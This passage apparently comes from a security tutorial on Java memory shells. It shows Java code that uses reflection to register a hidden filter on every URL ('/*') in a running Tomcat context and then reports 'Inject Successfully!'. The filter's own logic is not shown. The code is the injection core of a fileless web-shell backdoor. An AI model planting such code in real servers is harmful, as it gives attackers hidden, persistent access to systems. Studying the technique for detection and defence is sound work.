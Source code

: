 ```java
                    @Override
                    public void destroy() {

                    }
                };

                Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
                Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
                FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
                filterDef.setFilter(filter);
                filterDef.setFilterName(FilterName);
                filterDef.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef);

                Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
                FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(FilterName);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                standardContext.addFilterMapBefore(filterMap);

                Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
                Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
                applicationFilterConfigDeclaredConstructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
                filterConfigs.put(FilterName, filterConfig);

                response.getWriter().write("Inject Successfully!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<div align=center><img src="./images/26.png"></div>
